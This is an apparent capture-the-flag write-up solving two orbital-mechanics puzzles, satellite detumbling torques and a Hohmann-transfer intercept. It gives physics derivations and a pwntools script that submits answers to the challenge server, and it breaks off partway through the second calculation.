










# SPACE OPERATIONS
## Tumbling Through Space
>Sometimes a glider needs to know not to ask too many questions about who is behind a brief. This is one of those cases.
>
>Our friends are having difficulties with one of their satellites. It appears it has been struck by space debris and is now tumbling out of control. This is where you come in. The Attitude Determination and Control System (ADCS) is still online, but the automated detumbling sequence has failed. You will have to compute the correct control torques manually.
>
>They've provided you with all you need, just need to connect to their shell.
>
>You'll be told the satellite's moments of inertia (Ixx, Iyy, Izz) and current angular velocities (ωx, ωy, ωz). Submit four space-separated values per line:
>
>	Tx  Ty  Tz  duration
>where Tx/Ty/Tz are the body-frame torques in N·m and duration is the burn length in seconds (0 < duration ≤ 100). The torque-vector magnitude is capped at 1.0 N·m per the thruster spec.
>
>Detumbling succeeds when |ω| drops below 0.01 rad/s.
>
>You get five attempts per connection; reconnect to retry with a fresh tumble state.

### Reading the challenge
Our satellite was hit by a fragment and lost control. The ADCS is online, but the detumble module is broken—we need to do it manually. We connect to the server to get some info:

```
======================================================================
  SATELLITE DETUMBLING CHALLENGE
  Mission Control - ADCS Subsystem Interface
======================================================================

SITUATION REPORT:
Our satellite has been struck by space debris and is tumbling!
The Attitude Determination and Control System (ADCS) is operational,
but we need YOU to calculate the correct control torques.

MISSION OBJECTIVE:
Calculate and apply control torques to detumble the satellite.
Reduce angular velocity magnitude below 0.01 rad/s to stabilize.

======================================================================
CURRENT TELEMETRY:
======================================================================
Moment of Inertia (kg*m^2):
  Ixx = 19.906599
  Iyy = 18.847865
  Izz = 10.439227

Angular Velocity (rad/s):
  omega_x = -0.450054
  omega_y = -0.130532
  omega_z = +0.483849
  |omega|  = 0.673570

Angular Momentum (kg*m^2/s):
  Lx = -8.959035
  Ly = -2.460249
  Lz = +5.051012

Rotational Energy: 3.398557 J
======================================================================

HINTS:
1. To stop rotation, you need to cancel angular momentum: L = I * omega
2. Torque changes angular momentum: dL/dt = T
3. For detumbling: T = -L / t (where t is application time)
4. You can apply torque for a duration to reduce tumble rate

--- Attempt 1/5 ---

Enter control torques (N*m) and duration (s):
Format: Tx Ty Tz duration
Example: -0.5 0.3 -0.2 10
> 
```

Okay, so the server gives us the moments of inertia `(Ixx, Iyy, Izz)`, the current angular velocities `(ωx, ωy, ωz)` and $T_\text{max} = 1.0$. We need to send back the torques and the duration needed to stabilize the satellite.

### Background & solving...
#### Angular Momentum
Angular momentum is a vector quantity that represents the rotational inertia and angular velocity of a rotating object. It is the rotational equivalent of linear momentum $p = m \cdot v$

$$
    L = I \cdot \omega
$$

**Where:**
- **$L$**: Angular momentum of the orbiting body / satellite (kilogram square meters per second, $\text{kg}\cdot\text{m}^2/\text{s}$).
- **$I$**: Moment of inertia of the object (kilogram square meters, $\text{kg}\cdot\text{m}^2$). For a point-mass satellite in a circular orbit, $I = m \cdot r^2$.
- **$\omega$**: Angular velocity of the object (radians per second, $\text{rad/s}$).

#### Law of conservation of angular momentum
In linear motion, if you want to change the velocity of a car, you need to apply a force ($F$), where $F = \frac{\Delta p}{\Delta t}$. We have the same principle in angular momentum Torque ($T$) = $\frac{\Delta L}{\Delta t}$.

**Where:**
* **$T$** (or **$\tau$**): The net torque acting on the system (Newton-meters, $\text{N}\cdot\text{m}$).
* **$\Delta L$**: The infinitesimal change in angular momentum ($\text{kg}\cdot\text{m}^2/\text{s}$).
* **$\Delta t$**: The infinitesimal change in time (seconds, $\text{s}$).

### Solving the chall
Our goal is to bring the angular velocity ($\omega$) to zero. Since $L = I\omega$ and all moments of inertia are strictly positive, this is equivalent to driving the angular momentum ($L$) to zero.

Current angular momentum:
- $L_x = -8.959035$
- $L_y = -2.460249$
- $L_z = +5.051012$
- $|L| = \sqrt{L_x^2 + L_y^2 + L_z^2} = 10.574964$ N·m·s

The required change is the negative of the current value:
- $\Delta L_x = +8.959035$
- $\Delta L_y = +2.460249$
- $\Delta L_z = -5.051012$

Since torque is constant over the burn, $T \cdot \Delta t = \Delta L$. Taking the magnitude of both sides gives the burn duration:

$$
   |T| \cdot \Delta t = |\Delta L| = |L| \quad\Longrightarrow\quad\Delta t = \frac{|L|}{|T|}
$$

The thruster spec caps $|T| \le 1.0$ N·m, so $\Delta t$ is **not** a free choice — it is bounded from below:

$$
   \Delta t \ge \frac{|L|}{T_{max}} = \frac{10.574964}{1.0} = 10.574964 \text{ s}
$$

Burning at the cap minimises both the burn time and the angular drift during the burn, so we take $\Delta t = 10.575$ s (rounded up slightly: at the exact bound, floating-point rounding pushes $|T|$ to $1.000006$ and the server rejects the submission).

$$
   T = \frac{\Delta L}{\Delta t}
$$

- $T_x = 8.959035 / 10.575 = +0.847190$
- $T_y = 2.460249 / 10.575 = +0.232648$
- $T_z = -5.051012 / 10.575 = -0.477637$

Sanity check: $|T| = 0.999997 \le 1.0$

Submission:

```
0.847190 0.232648 -0.477637 10.575
```

```python
from pwn import *
import re, math

HOST, PORT = "0.cloud.chals.io", 32630
NUM = r"([-+]?\d*\.?\d+(?:[eE][-+]?\d+)?)"
IP = [r"I[xyz]{2}", r"I_[xyz]{2}", r"\bI[xyz]\b"]
WP = [r"\bw[xyz]\b", r"omega_?[xyz]", r"w_[xyz]", r"ω[xyz]"]
FLAG = r"[A-Za-z_]{2,}\{[^}]+\}"


def nums(data, pats):
    for p in pats:
        got = re.findall(p + r"\s*[:=]?\s*" + NUM, data, re.I)
        if len(got) >= 3:
            return float(got[0]), float(got[1]), float(got[2])
    return None


io = remote(HOST, PORT)

ix = iy = iz = None
wx = wy = wz = None

while True:
    data = ""
    while True:
        chunk = io.recvuntil(b">", timeout=10).decode(errors="replace")
        data += chunk
        if not chunk or nums(data, WP) or re.search(FLAG, data):
            break
    print(data)

    m = re.search(FLAG, data)
    if m:
        print("FLAG:", m.group(0))
        break

    gi = nums(data, IP)
    if gi:
        ix, iy, iz = gi

    go = nums(data, WP)
    if go:
        wx, wy, wz = go

    if ix is None or wx is None:
        print("PARSE FAIL")
        print(repr(data))
        break

    lx, ly, lz = ix * wx, iy * wy, iz * wz
    nl = math.sqrt(lx ** 2 + ly ** 2 + lz ** 2)
    d = min(nl * 1.000001, 100)
    s = min(1.0, nl / d) / nl
    tx, ty, tz = -lx * s, -ly * s, -lz * s
    
    io.sendline(f"{tx:.9f} {ty:.9f} {tz:.9f} {d:.9f}".encode())
    io.interactive()

io.close()
```

Output:

```
======================================================================
SUCCESS! SATELLITE STABILIZED!
======================================================================

The satellite has been successfully detumbled!
Angular velocity is now below threshold.
ADCS has resumed normal operations.

Mission Control is pleased with your performance.

Here is your flag: STARPWN{d3tumbl3_m4st3r_sp4c3_0p5}
```

Flag: `STARPWN{d3tumbl3_m4st3r_sp4c3_0p5}`

## Time to Intercept
>An unknown aggressor satellite has been detected in a higher orbit and is threatening critical space infrastructure. Your mission: calculate a Hohmann transfer to intercept it.
>
>Connect to the provided shell. You will be told your circular orbit altitude, the target's circular orbit altitude, and the current phase angle between you and the target. You'll need to submit two numbers per line, space-separated:
>&nbsp;&nbsp;&nbsp;&nbsp;delta_v_burn  wait_time
>
>&nbsp;&nbsp;&nbsp;&nbsp;delta_v_burn  — Δv for the first (injection) burn, in m/s.<br>
>&nbsp;&nbsp;&nbsp;&nbsp;wait_time     — seconds to wait before executing the burn so the
>									target arrives at the rendezvous point at the same
>									time you do.
>
>Grading tolerances: ±10 m/s on Δv, ±60 s on wait time. You'll have five attempts per connection. Reconnect to retry with a fresh scenario.

### Reading the challenge
Let's deploy target and connect using `nc`.

```bash
$nc 0.cloud.chals.io 13735
======================================================================
  SATELLITE ORBITAL INTERCEPT MISSION
  Space Force - Orbital Warfare Division
======================================================================

SITUATION REPORT:
An unknown aggressor satellite has been detected in orbit.
Intelligence suggests it poses a threat to critical infrastructure.
Your mission: Calculate an intercept trajectory using a Hohmann transfer.

MISSION OBJECTIVE:
Calculate the delta-v for the intercept burn and wait time for the
correct phase angle. You must rendezvous with the aggressor satellite.

======================================================================
ORBITAL INTELLIGENCE:
======================================================================
YOUR SATELLITE: DEFENDER-1
  Altitude: 486.543 km
  Orbital Radius: 6857.543 km
  Orbital Velocity: 7623.923 m/s
  Orbital Period: 94.193 minutes

TARGET SATELLITE: AGGRESSOR-X
  Altitude: 863.448 km
  Orbital Radius: 7234.448 km
  Orbital Velocity: 7422.669 m/s
  Orbital Period: 102.064 minutes

CURRENT GEOMETRY:
  Phase Angle: 90.474 degrees
  (Angle between satellites in their orbits)

======================================================================

MISSION BRIEFING:
1. Use a Hohmann transfer to change from your orbit to the target orbit
2. Calculate the required delta-v for the initial burn
3. Calculate wait time for correct phase angle alignment
4. The target must be at the right position when you start the burn

KEY EQUATIONS:
  - Orbital velocity: v = sqrt(μ/r)
  - Transfer orbit semi-major axis: a = (r1 + r2)/2
  - Vis-viva equation: v = sqrt(μ(2/r - 1/a))

--- Attempt 1/5 ---

Enter your calculated intercept parameters:
Format: delta_v_burn wait_time
  delta_v_burn: Initial burn delta-v in m/s
  wait_time: Time to wait before burn in seconds

Example: 245.5 1820.3
> 
```

It give us some data then ask us to calculate `delta_v_burn` and `wait_time`. If it correct, the target will be intercepted and we will have flag, else it will fail and give us another attempt (max is 5).

```bash
...

Example: 245.5 1820.3
> 
11 22

Calculating intercept trajectory...

TRAJECTORY ANALYSIS:
  Submitted delta-v: 11.000 m/s
  Required delta-v: 63.432 m/s
  Error: 52.432 m/s

  Submitted wait time: 22.000 s (0.37 min)
  Required wait time: 62558.990 s (1042.65 min)
  Error: 62536.990 s

Delta-v error too large (tolerance: ±10.0 m/s)
Wait time error too large (tolerance: ±60.0 s)

Intercept trajectory will miss the target. Recalculate and try again.

--- Attempt 2/5 ---

...
```

What we have here:
- `r1 (radius from earth to DEFENDER-1)` is `6857.543 km`. $r1 = R_{\oplus} + \text{altitude}$
- `r2 (radius from earth to AGGRESSOR-X)` is `7234.448 km`. $r2 = R_{\oplus} + \text{altitude}$
- `φ₀ (phase angle)` is `90.474°`. We can use `atan2` method to calculate, but the author has already given it to us.

Now what? Physics, physics my friend,...

### Background & solving...
#### Standard gravitational parameter
Gravity Force is:

$$
   F = G \frac{M \cdot m}{r^2} = \frac{G \cdot M \cdot m}{r^2} = \frac{\mu \cdot m}{r^2}
$$

**Where:**
- **$F$**: Gravitational force between the two bodies (Newton, $N$).
- **$G$**: Gravitational constant ($\approx 6.674 \times 10^{-11} \text{ m}^3\text{kg}^{-1}\text{s}^{-2}$).
- **$M$**: Mass of the primary/central body, such as a planet or star (kilogram, $kg$).
- **$m$**: Mass of the secondary body, such as a satellite or spacecraft (kilogram, $kg$).
- **$r$**: Distance between the centers of the two masses (meter, $m$).
- **$\mu$**: Standard gravitational parameter ($\mu = G \cdot M$) ($\text{m}^3/\text{s}^2$). $\mu = G \cdot M \approx 3.986 \times 10^{14} \text{ m}^3/\text{s}^2$

And 2nd Newton law:

$$
   F = m \cdot a
$$

**Where:**
- **$F$** (or **$F_{net}$**): The net force acting on the object (Newton, $N$). It represents the vector sum of all external forces.
- **$m$**: The mass of the object (kilogram, $kg$).
- **$a$**: The acceleration of the object resulting from the net force ($\text{m/s}^2$).

From 2 formula, we can have the `gravitational acceleration` formula:

$$
   \frac{\mu \cdot m}{r^2} = m \cdot a \implies a = \frac{\mu}{r^2}
$$

### Circular Orbital Velocity
Gravitational force acts as the centripetal force that allows celestial bodies and satellites to maintain a circular orbit around a planet, preventing them from falling down or drifting away into space.

$$
   F_g = F_c \iff \frac{G \cdot M \cdot m}{r^2} = \frac{m \cdot v^2}{r} \iff v^2 = \frac{\mu}{r} \implies v = \sqrt{\frac{\mu}{r}}
$$

**Where:**
- **$F_g$**: Gravitational force ($N$).
- **$F_c$**: Centripetal force ($N$).
- **$v$**: Circular orbital velocity ($\text{m/s}$).

#### Vis-viva Equation
The `Vis-Viva` equation (derived from the Latin for "living force") is one of the fundamental equations in astrodynamics. It represents the **law of conservation of mechanical energy** applied to an orbit, linking a satellite's speed to its distance from the central body.

Unlike the circular orbital velocity formula, the Vis-Viva equation is universal and applies to **all types of Keplerian orbits** (circular, elliptical, parabolic, and hyperbolic).

$$
   v^2 = \mu \left( \frac{2}{r} - \frac{1}{a} \right) \implies v = \sqrt{\mu \left( \frac{2}{r} - \frac{1}{a} \right)}
$$

Where:
- **$a$**: The semi-major axis of the orbit (m). It represents the size and the total energy of the orbit.

#### Hohmann transfer
"I am currently in a circular orbit with radius $r_1$ and want to transfer to another circular orbit with radius $r_2$. How can I achieve this with the minimum fuel consumption?". The Hohmann transfer ellipse is perfectly tangent to (touches) both the initial circular orbit ($r_1$) and the target circular orbit ($r_2$):

- **The lowest point (Periapsis):** Exactly equals $r_1$ — where you currently are.
- **The highest point (Apoapsis):** Exactly equals $r_2$ — where you want to go.
- **The semi-major axis ($a$):** By definition, the semi-major axis is half the sum of the periapsis and apoapsis distances. Therefore, it is the arithmetic mean of the two radii:

$$
   a = \frac{r_1 + r_2}{2}
$$

Then we have formula:

$$
   \Delta v_1 = v_{\text{final}} - v_{\text{initial}} \iff \Delta v_1 = \sqrt{\mu \left( \frac{2}{r_1} - \frac{1}{a} \right)} - \sqrt{\frac{\mu}{r_1}}
$$

$$
   \Delta v_2 = v_{\text{final}} - v_{\text{initial}} \iff \Delta v_2 = \sqrt{\frac{\mu}{r_2}} - \sqrt{\mu \left( \frac{2}{r_2} - \frac{1}{a} \right)}
$$

**Where:**
- **$\Delta v_1$**: The required change in velocity for the first maneuver ($m/s$).
- **$\Delta v_2$**: The required change in velocity for the first maneuver ($m/s$).
- **$v_{\text{final}}$**: The target velocity on the elliptical transfer orbit ($m/s$).
- **$v_{\text{initial}}$**: The current velocity on the lower circular orbit ($m/s$).

#### Time of flight
When solving for `orbital periods` ($T$) or `time of flight` ($t_{\text{flight}}$). We usually think about Kepler's 3rd Law.

$$
   T^2 = \frac{4\pi^2}{\mu} \cdot a^3 \iff T = 2\pi \sqrt{\frac{a^3}{\mu}}
$$

But we only need to fight 1/2 an elliptical.

$$
   T = \frac{2\pi \sqrt{\frac{a^3}{\mu}}}{2} \iff T = \pi \sqrt{\frac{a^3}{\mu}}
$$

#### Orbital Rendezvous

For an angle $\theta$ measured in radians, the arc length $s$ is given by:

$$
   s = \theta \cdot r \iff \frac{s}{t} = \frac{\theta \cdot r}{t}
$$

We have:

$$
   \frac{\theta}{t} = \omega \quad \text{and} \quad \frac{s}{t} = v
$$

**Where:**
* **$\theta$**: Swept angle / Angular displacement (radians, $rad$).
* **$s$**: Arc length / Linear distance traveled along the curve (meters, $m$).
* **$t$**: Time taken (seconds, $s$).
* **$\omega$**: Angular velocity / Angular speed ($\text{rad/s}$).
* **$v$**: Linear velocity / Tangential speed ($\text{m/s}$).

$$
    \frac{s}{t} = \left(\frac{\theta}{t}\right) \cdot r \implies v = \omega \cdot r \iff \omega = \frac{v}{r}
$$

Combine everything we have:

$$
   \omega = \frac{v}{r} \implies \omega = \frac{\sqrt{\frac{\mu}{r}}}{r} \implies \omega = \sqrt{\frac{\frac{\mu}{r}}{r^2}} \implies \omega = \sqrt{\frac{\mu}{r^3}}
$$

#### Calculate time

First we need to have basic info:
- `r₁` = 6 857 543 m.
- `r₂` = 7 234 448 m. 
- `φ₀` = 90.474°. 
- `v₁` = 7623.923 m/s.

Get $\mu$:
$$
   \mu = v^2 \cdot r \implies \mu = (7,623.923 \text{ m/s})^2 \times 6,857,543 \text{ m} = 3.985892 \times 10^{14} \text{ m}^3/\text{s}^2
$$

Get $\omega_1$ ($\omega_\text{DEFENDER-1}$):
$$
   \omega_1 = \sqrt{\frac{\mu}{r_1^3}} \implies \omega_1 = \sqrt{\frac{3.985892 \times 10^{14}}{3.224821 \times 10^{20}}} \implies \omega_1 = \sqrt{1.236004 \times 10^{-6}} \implies \omega_1 = 1.111757 \times 10^{-3} \text{ rad/s}
$$

Convert $\omega_1$ from `rad/s` to `°/s`:
$$
   \omega_{1\text{(deg)}} = 1.111757 \times 10^{-3} \text{ rad/s} \times \frac{180}{\pi} = 0.0636990^\circ/\text{s}
$$

Get $\omega_2$ ($\omega_\text{AGGRESSOR-X}$):
$$
   \omega_2 = \sqrt{\frac{\mu}{r_2^3}} \implies \omega_2 = \sqrt{\frac{3.985892 \times 10^{14}}{3.786310 \times 10^{20}}} \implies \omega_2 = \sqrt{1.052711 \times 10^{-6}} \implies \omega_2 = 1.026017 \times 10^{-3} \text{ rad/s}
$$

